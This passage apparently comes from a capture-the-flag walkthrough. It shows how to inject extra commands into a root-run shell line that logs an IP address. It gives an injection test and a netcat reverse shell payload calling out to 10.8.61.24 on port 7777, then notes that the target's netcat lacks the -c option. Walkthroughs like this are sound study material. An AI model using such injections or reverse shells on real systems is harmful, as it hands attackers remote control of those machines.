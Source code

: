 The command execution to evade is this:

```bash
/usr/bin/sh -c "echo $ip >> /root/logged"
```

We can test it on our Kali machine and see the result. The `ls -la` need to be substitute with the command to spawn a reverse shell:

```bash
/usr/bin/sh -c "echo ok;ls -la;echo ok >> /tmp/logged"
```

<figure><img src="../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

The command that we want to obtain is like this one:

```bash
/usr/bin/sh -c "echo ok;nc -c sh 10.8.61.24 7777;echo ok >> /tmp/logged"
```

On the victim machine there is netcat:

<figure><img src="../../.gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

But there isn't the option `-c`:

<figure><img src="../../.gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>
